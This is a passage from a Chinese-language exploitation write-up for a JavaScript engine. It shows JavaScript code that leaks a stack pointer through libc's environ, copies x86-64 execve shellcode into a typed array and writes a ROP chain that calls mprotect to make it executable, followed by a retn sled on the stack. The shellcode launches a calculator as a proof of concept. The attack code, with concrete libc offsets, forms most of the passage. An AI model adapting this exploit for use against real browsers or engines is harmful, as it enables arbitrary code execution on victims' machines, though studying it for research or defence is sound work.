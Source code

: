 然后我们就可以布置Shellcode和ROP链，通过ROP来调用mprotect将shellcode所在地址空间的属性改为RWX。至于如何控制程序流，就这个技巧之前也没接触过，就是向栈中写retn，希望在程序退栈的时候能踩到上面，然后一路retn到我们布置在高位的rop链。一开始想多覆盖一些retn，不过程序直接崩了，覆盖少量的反而成功率更高。

Stack的地址，我们可以通过libc中的全局变量environ来获得stack的一个高位指针。

```
$ readelf -r ~/libc.so.6 |grep environ
0000003c2df8  011b00000006 R_X86_64_GLOB_DAT 00000000003c5f98 _environ@@GLIBC_2.2.5 + 0
0000003c2eb8  051100000006 R_X86_64_GLOB_DAT 00000000003c5f98 __environ@@GLIBC_2.2.5 + 0
```

代码如下

```
//PUSH SHELLCODE
let shellcode=new Uint8Array(4096);
let shellcode_addr=wr.leak_obj(shellcode);

ptr=wr.read(shellcode_addr+0x18)-1;        //获取shellcode地址
shellcode_addr=wr.read(ptr+0x20);            //TypeArray --&gt; ArrayBuffer
console.log(hex(shellcode_addr));
let sc=[0x6a,0x3b,0x58,0x99,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x00,0x53,0x48,0x89,0xe7,0x68,0x2d,0x63,0x00,0x00,0x48,0x89,0xe6,0x52,0xe8,0x1c,0x00,0x00,0x00,0x44,0x49,0x53,0x50,0x4c,0x41,0x59,0x3d,0x3a,0x30,0x20,0x67,0x6e,0x6f,0x6d,0x65,0x2d,0x63,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72,0x00,0x56,0x57,0x48,0x89,0xe6,0x0f,0x05];  //弹出一个计算器
for(let i=0;i&lt;sc.length;i++){
    shellcode[i]=sc[i];
}

//ROP
let pop_rdi=0x21102+libc_base;
let pop_rsi=0x202e8+libc_base;
let pop_rdx=0x01b92+libc_base;
let retn=0xe9bbb+libc_base;
let mprotect=0x100eb0+libc_base;
let rop=[
pop_rdi,
parseInt(shellcode_addr/0x1000)*0x1000,
pop_rsi,
1024,
pop_rdx,
7,
mprotect,
shellcode_addr
]

//GET STACK_ADDR
let environ_addr=libc_base+0x3c5f98;
let stack_addr=wr.read(environ_addr);
console.log("[*]stack address "+hex(stack_addr));

let rop_addr=stack_addr-200*rop.length;
console.log("[*]rop address "+hex(rop_addr))
for(let i=0;i&lt;rop.length;i++)
{
    wr.write(rop_addr+i*8,rop[i]);
}
for(let i=1;i&lt;100;i++)        //过多的覆盖反而会导致段错误，10～100都可以
{
    wr.write(rop_addr-i*8,retn);
}
```
